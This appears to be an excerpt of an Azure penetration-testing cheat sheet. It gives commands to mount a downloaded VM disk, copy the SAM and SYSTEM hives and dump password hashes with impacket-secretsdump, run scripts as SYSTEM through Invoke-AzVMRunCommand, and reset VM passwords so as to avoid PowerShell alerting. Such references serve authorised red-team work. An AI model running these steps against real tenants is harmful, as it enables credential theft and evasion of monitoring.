 ### Read password hashes from virtual machine
- Download the disk https://docs.microsoft.com/en-us/azure/virtual-machines/windows/download-vhd#generate-download-url

#### Check the disks
```
sudo fdisk –l
```

#### Mount the disk
```
sudo mkdir /media/mounted-drive
sudo mount /dev/sdc4 /media/mounted-drive/
```

#### Navigate to the windows snapshot
```
cd /media/mounted-drive/
ls
```

#### Copy system/SAM and dump hashes
```
cd /media/mounted-drive/Windows/System32/config/
cp SAM SYSTEM ~/
cd ~/
impacket-secretsdump -system SYSTEM -sam SAM LOCAL
```

### Execute commands
- Requires the "Virtual Machine Contributor" role
- Run as default by SYSTEM or root
- Commandid =  RunPowerShellScript or RunShellScript
```
Invoke-AzVMRunCommand -ResourceGroupName <resource group name> -VMName <VM name> -CommandId RunPowerShellScript -ScriptPath ./powershell-script.ps1
```

### Reset password from VM
- Can be done from Azure portal
- This may be a quick way to gain access and avoid PowerShell alerting
- Be careful though as scripts/services may be using the credential

## Deployments
#### Check access to any resource group
```
Get-AzResourceGroup
```

### Check if you read any deployment from the resource group:
```
Get-AzResourceGroupDeployment -ResourceGroupName <RESOURCE GROUP NAME>
```
